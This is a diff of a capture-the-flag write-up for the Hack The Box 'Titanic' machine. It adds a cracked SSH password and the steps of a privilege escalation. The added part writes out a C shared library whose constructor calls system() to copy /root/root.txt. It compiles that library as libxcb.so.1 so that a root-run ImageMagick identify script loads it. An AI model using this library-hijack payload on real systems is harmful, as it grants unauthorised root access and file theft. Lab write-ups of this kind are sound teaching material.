

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: HTB/Titanic-HTB.md, the part around the change printed below. Shown: that part at 80% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/HTB/Titanic-HTB.md
+++ b/HTB/Titanic-HTB.md
@@ -202,9 +202,13 @@ hashcat -m 10900 hashes.txt --show
 sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
 ```
 
+
+
 ![image](https://github.com/user-attachments/assets/189472a7-0fbf-48ba-b5ef-b5f55e98255c)
 
-password is **``25282528``**
+> [!warning]
+> ### ssh password : **``25282528``**
+
 
 ---
 
@@ -222,3 +226,76 @@ after run linpeas found
 
 
 
+```bash
+ps aux
+```
+
+![image](https://github.com/user-attachments/assets/c3dda3e6-89a2-42d0-8df3-907682393fc5)
+
+```bash
+/usr/bin/python3 /opt/app/app.py
+```
+
+
+```bash
+cd /opt
+```
+
+![image](https://github.com/user-attachments/assets/b32380cc-d09e-4e43-8792-d979241253b7)
+
+> ### the script work as ``Root``
+
+```css
+-rwxr-xr-x 1 root root 167 Feb  3 17:11 /opt/scripts/identify_images.sh
+```
+
+now we will see content of ``identify_images.sh``
+
+```bash
+cat identify_images.sh
+```
+
+
+```bash
+cd /opt/app/static/assets/images
+truncate -s 0 metadata.log
+find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
+```
+
+> #### This means that any ``.jpg`` file in this directory will be automatically processed by ``identify`` when the script runs. Given this behavior, I decided to investigate whether ``ImageMagick`` had any known vulnerabilities.
+
+
+on ``/opt/app/static/assets/images`` do :
+
+```bash
+nano exploit.c
+```
+
+```c
+#include <stdio.h>
+#include <stdlib.h>
+#include <unistd.h>
+
+__attribute__((constructor)) void init() {
+    system("cat /root/root.txt > /tmp/root.txt");
+    exit(0);
+}
+```
+
+
+now do compile to library :
+
+```
+gcc -x c -shared -fPIC -o libxcb.so.1 exploit.c
+```
+
+copy any image form directoy you in but with new name:
+
+```bash
+cp entertainment.jpg exploit.jpg
+```
+
+```
+ls
+```
+
````
Also changed, not shown: other parts of HTB/Titanic-HTB.md (+120 -0 lines).
